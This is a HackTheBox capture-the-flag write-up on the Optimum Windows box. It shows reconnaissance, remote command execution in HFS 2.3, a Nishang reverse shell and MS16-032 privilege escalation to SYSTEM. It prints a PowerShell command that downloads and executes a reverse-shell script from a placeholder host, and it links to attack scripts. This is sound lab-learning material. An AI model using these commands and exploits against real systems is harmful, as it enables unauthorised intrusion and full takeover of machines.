 ```yaml
---
weight: 1
title: "HackTheBox - Optimum Writeup"
date: 2022-06-17
draft: false
author: "SH∆FIQ ∆IM∆N"
authorLink: "https://shafiqaiman.com"
description: "HacktheBox - Optimum Writeup"
images: []
resources:
- name: "featured-image"
  src: "featured.png"

tags: ["CVE-2014-6287", "CVE-2016-0099", "MS16-032", "rce", "reverse-powershell", "httpfileserver", "HFS", "empire-project", "windows-sysnative", "powershell-arc"]
categories: ["HacktheBox","Windows"]

lightgallery: true
toc:
  auto: false
---
```


Box author | {{< person url="https://app.hackthebox.com/users/1" name="ch4p" picture="https://www.hackthebox.com/storage/avatars/08c255a334e10b3033ab7263e6b32422.png" >}}

<!--more-->

## Nmap
First, let’s scan the IP address by using the Nmap

```sql
# Nmap 7.92 scan initiated Fri Jun 10 19:25:32 2022 as: nmap -sC -sV -vv -p- --min-rate=10000 -oN nmap/optimum_all 10.10.10.8
Nmap scan report for 10.10.10.8
Host is up, received echo-reply ttl 127 (0.40s latency).
Scanned at 2022-06-10 19:25:32 +08 for 25s
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 HttpFileServer httpd 2.3
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: HFS /
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
|_http-server-header: HFS 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun 10 19:25:57 2022 -- 1 IP address (1 host up) scanned in 24.94 seconds
```

Interesting, the only port open is `80` and the banner says `HttpFileServer/HFS 2.3`

## HFS (HttpFileServer)
{{< admonition tip "Description" >}}
**HTTP File Server**, otherwise known as `HFS`, is a free web server specifically designed for publishing and sharing files. </br>
It's different from classic file sharing because it uses web technology to be more compatible with today's Internet. _resource: [wikipedia](https://en.wikipedia.org/wiki/HTTP_File_Server)_
{{< /admonition >}}

I navigate to the `port 80` through the web browser. WOW! it's just a simple webpage and its also can search files,? I believed. Well, this box is really old by the time I'm writing this. Like always I'm asking google about this information and waiting for the result to come in.

![HFS webpage](hfs-main-page.png "HFS webpage")

### CVE-2014-6287
Upon searching on the internet. I found this `HFS` version is vulnerable to `RCE (remote command execution)` and got assigned to a [CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287). I also found this [article](https://www.kb.cert.org/vuls/id/251276) with a payload sample.

{{< admonition tip "CVE description" >}}
The `findMacroMarker` function in `parserLib.pas` in Rejetto HTTP File Server (aks HFS or HttpFileServer) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a `%00` sequence in a search action.
{{< /admonition >}}

### Burpsuite
I already have the [payload sample](https://www.kb.cert.org/vuls/id/251276) and I'm gonna try it out with simple command. The command is `whoami`. First, I intercept the `search` endpoint with [burpsuite](https://portswigger.net/burp). Then, send the request through the repeater and put the payload in the search query. However, it didn't display any output from my `whoami` command. Then, I remembered about the `ping` command. So, I try to ping myself to see, if I get the connection through the box.

![ping myself](burpsuite-search-ping.png "ping myself")

![receiving the ping request](tcpdump-ping-tun0.png "receiving the ping request")

## Nishang: Invoke-PowerShellTcp.ps1

The command runs successfully, with this information, I'm gonna try to gain a foothold on the box with [nishang](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1) reverse shell script. Check this [blog](https://shafiqaiman.com/posts/htb/responder/#nishang-invoke-powershelltcpps1)  where I configure the reverse shell script.

First, I created a new directory called `www` and put the reverse shell script in the same directory. Then, I'm hosting the [python](https://www.python.org/downloads/) web server in port `80` and run the `nc` listener with `rlwrap` since this is a `Windows` machine. Back to the burpsuite, I use this [payload](https://shafiqaiman.com/posts/htb/responder/#nishang-invoke-powershelltcpps1), which is downloading the reverse shell script and executing it. `Don't forget the (dot) at the end`. 

![serve python server](python3-server-and-nc-listening.png "serve python server")

![execute reverse shell](burpsuite-with-powershell-reverse-shell.png "execute reverse shell")

![shell as kostas](nc-catch-the-shell.png "shell as kostas")

NICE!. Finally, I'm in as a `kostas` user. Since this is an old machine from [HacktheBox](https://app.hackthebox.com/), I'm gonna assume they are plenty of exploits on the internet waiting to be found. Well, I'm going to check this machine system with the `systeminfo` command first.

![systeminfo](run-the-systeminfo-command.png "systeminfo")

### MS16-032 : CVE-2016-0099

This is a `Windows Server 2012R2` version `6.3.9600 N/A Build 9600` and the architecture type is `64 bit`. Upon searching this version on the net. I realize this version is vulnerable to a lot of things. However, I'm gonna abuse the [Secondary Logon Service](https://googleprojectzero.blogspot.com/2016/03/exploiting-leaked-thread-handle.html) to gain the `SYSTEM` shell that is dubbed as [MS16-032](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-032) or [CVE-2016-0099](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-0099).

### EmpireProject: Invoke-MS16032.ps1

I manage to find this [exploit](https://www.exploit-db.com/exploits/39719) in the [exploit-db](https://www.exploit-db.com/). However, the exploit itself didn't work in my case because it's open the `cmd` through `GUI` and I don't have access to the `GUI` instance. Luckily, I found the [powershell exploit](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1) that allows me to privesc from the [EmpireProject](https://github.com/EmpireProject/Empire).

{{< admonition tip "EmpireProject" >}}
Is a post-exploitation framework that includes a pure-PowerShell2.0 Windows agent, and a pure Python 2.6/2.7 Linux/OS X agent. </br>
It is the merge of the previous PowerShell Empire and Python EmPyre projects. </br>
_resource: [EmpireProject github](https://github.com/EmpireProject/Empire)_
{{< /admonition >}}

So, I'm gonna download it with the `wget` command. Then, edit the file by putting the **example** in the last line also edit the `URL` to point into my python server with another reverse shell called `yeet.ps1`

_Note: the example start with **Invoke-MS16-032**. However, the function is named **Invoke-MS16032**_

![download the exploit](download-ms16032-wget.png "download the exploit")

![exploit example](edit-the-exploit-file-ms16032.png "exploit example")

![edit the exploit](put-at-the-last-line.png "edit the exploit")

### Windows: sysnative

I tried a bunch of times to run this exploit but the result is nothing. This machine is `64` bit and also the exploit is tested on a `64` bit `2k12R2` server. Now, I'm dumbfounded. Then, I realize maybe the powershell itself running on another architecture. So, I [check](https://stackoverflow.com/questions/8588960/determine-if-current-powershell-process-is-32-bit-or-64-bit/8589649#8589649), and it's confirmed. The powershell is running on `32` bit.

![exploit compatibility](example-tested-exploit.png "exploit compatibility")

![check powershell architecture](check-the-arc-of-powershell-32-bit.png "check powershell architecture")

With quick googling, I found this [answer](https://stackoverflow.com/questions/19055924/how-to-launch-64-bit-powershell-from-32-bit-cmd-exe/19056011#19056011) on [stackoverflow](https://stackoverflow.com/). I need to run the powershell in the `sysnative` directory to get the `64` bit version. Well, I need to restart over again. So, back again to the burpsuite and put this as the payload. Then, catch the shell with `nc`.

```powershell
C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe "IEX(New-Object Net.WebClient).DownloadString('http://example.com/Invoke-PowerShellTcp.ps1')"
```

When I checked the powershell architecture indeed it is running on 	`64` bit. YES!!!

![using 64bit powershell](check-the-arc-of-powershell-64-bit.png "using 64bit powershell")

## Windows: Privilege Escalation

Now, I'm executing the [privesc exploit](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1) once again. My python server shows the request from the file called `Invoke-MS16032.ps1` followed with `yeet.ps1` and finally, I've got a shell as `system`.

![shell as nt authority\system](last-image.png "shell as nt authority\system")